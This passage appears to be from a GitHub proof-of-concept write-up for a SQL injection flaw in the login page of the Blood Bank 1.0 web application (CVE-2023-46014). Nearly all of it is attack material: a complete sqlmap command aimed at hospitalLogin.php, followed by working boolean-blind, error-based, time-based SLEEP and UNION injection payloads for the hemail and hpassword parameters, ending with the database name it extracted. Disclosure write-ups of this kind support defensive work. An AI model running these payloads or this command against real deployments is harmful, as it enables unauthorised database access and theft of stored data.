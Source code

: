 ```
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test' UNION ALL SELECT CONCAT(0x716a7a6b71,0x567a4f6f4b556976707668696878754f48514d6e63424a706f70714e6f62684f504a7a565178736a,0x7170767a71),NULL,NULL,NULL,NULL,NULL-- -&hpassword=test&hlogin=Login
---
```
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hpassword --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hpassword (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test&hpassword=test' AND 4940=(SELECT (CASE WHEN (4940=4940) THEN 4940 ELSE (SELECT 5623 UNION SELECT 6789) END))-- -&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test&hpassword=test' OR (SELECT 8207 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(8207=8207,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TrPm&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test&hpassword=test' AND (SELECT 3303 FROM (SELECT(SLEEP(5)))PdPC)-- lTZZ&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test&hpassword=test' UNION ALL SELECT NULL,CONCAT(0x716a7a6b71,0x5271514f636f6f46476f6365424b6e6166454c725751704d6f6c467968626a4e725172785955416d,0x7170767a71),NULL,NULL,NULL,NULL-- -&hlogin=Login
---
```

+ current database: `bloodbank`
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46014-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/2d932b0a-4a01-4064-9b08-607204433d10">
